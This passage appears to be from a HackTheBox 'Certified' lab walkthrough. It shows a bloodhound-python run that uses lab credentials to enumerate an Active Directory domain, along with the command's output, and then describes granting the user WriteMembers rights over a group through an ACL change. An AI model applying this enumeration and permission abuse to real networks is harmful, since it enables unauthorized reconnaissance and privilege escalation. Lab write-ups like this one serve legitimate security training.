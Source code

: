 Using the `bloodhound-python` tool to collect data from Active Directory.


~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ bloodhound-python -u judith.mader -p 'judith09' -c all -d "certified.htb" -ns 10.10.11.41
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 18S 
~~~


I used `bloodhound GUI` import `.json` file I collected in the step above and got the following information.

![](/assets/img/sample/certified/graph.png)

Modify the groups's Management to grant **judith.mader** WriteMembers permission to manage group's members. 
